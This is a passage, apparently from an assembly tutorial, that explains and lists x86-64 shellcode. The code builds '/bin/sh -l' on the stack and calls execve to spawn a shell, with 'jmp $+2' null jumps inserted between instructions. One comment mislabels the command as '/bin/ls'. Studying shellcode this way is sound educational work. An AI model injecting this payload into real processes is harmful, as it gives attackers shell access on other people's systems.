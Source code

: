 The register `$rsi` contains the address of an array containing the addresses of the command and its parameters, here: \[@"/bin/sh", @"-l"\]. That's the reason why we put the addresses of these strings
(instructions 10 and 12). The string "/bin/sh" cannot be pushed as an int, that's the reason why we do it in two times, and manually modify `$rsp`.

To make it flexible, we simply have to put `jmp $+2` between instructions ( `jmp $+2` is translated into `eb 00`, which is a null jump):

> ```asm
section .text
>	global _start
>
_start:
>	jmp $+2
>	push rdx					; save rdx
>	jmp $+2
>	push rdi					; save rdi
>	jmp $+2
>	push rsi					; save rsi
>	jmp $+2
>	push 0x006c2d				; push "-l"
>	jmp $+2
>	push 0x736c2f				; push "/sh"
>	jmp $+2
>	sub rsp, 4					; don't use push here
>	jmp $+2
>	mov dword [rsp], 0x6e69622f ;move "/bin" onto the stack
>	jmp $+2
>	push 0x0					; push null element
>	jmp $+2
>	lea rdi, [rsp+20]			; rdi = address of the argument
>	jmp $+2
>	push rdi					; push it
>	jmp $+2
>	lea rdi, [rsp+16]			; rdi = address of the command
>	jmp $+2
>	push rdi					; push it
>	jmp $+2
>	mov rsi, rsp				; rsi = @[@"/bin/ls", @"-l" ]
>	jmp $+2
>	mov rdx, 0x0				; NULL
>	jmp $+2
>	mov rax, 0x3b				; execve syscall
>	jmp $+2
>	add rsp, 44					; restore stack pointer
>	jmp $+2
>	syscall
>	jmp $+2
>	pop rsi						; restore rsi
>	jmp $+2
>	pop rdi						; restore rdi
>	jmp $+2
>	pop rdx						; restore rdx
>	jmp $+2
> ```
